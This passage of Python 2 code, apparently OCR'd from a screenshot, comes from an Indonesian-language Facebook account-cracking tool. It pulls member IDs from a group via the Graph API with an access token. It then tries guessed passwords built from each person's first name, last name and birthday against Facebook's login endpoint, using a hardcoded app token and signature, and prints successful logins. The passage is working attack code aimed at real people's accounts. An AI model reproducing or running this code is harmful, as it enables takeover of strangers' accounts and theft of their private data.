                 re = requests.get('https://graph.facebook.com/' + idg + '/members?fields=name,id&limit=999999999&access_token=' + toket)
                s = json.loads(re.text)
                for i in s['data']:
                    id.append(i['id'])

            else:
                if peak == '0':
                    menu_hack()
                else:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + peak + ' \x1b[1;91mTidak ada'
                    pilih_super()
    print '\x1b[1;91m[+] \x1b[1;92mJumlah ID \x1b[1;91m: \x1b[1;97m' + str(len(id))
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
    titik = ['.   ', '..  ', '... ']
    for o in titik:
        print '\r\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;97m' + o,
        sys.stdout.flush()
        time.sleep(1)

    print
    print 40 * '\x1b[1;97m\xe2\x95\x90'

    def main(arg):
        user = arg
        try:
            a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket)
            b = json.loads(a.text)
            pass1 = b['first_name'] + '123'
            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass1
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass1
                else:
                    pass2 = b['first_name'] + '12345'
                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass2
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass2
                        else:
                            pass3 = b['last_name'] + '123'
                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass3
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass3
                                else:
                                    lahir = b['birthday']
                                    pass4 = lahir.replace('/', '')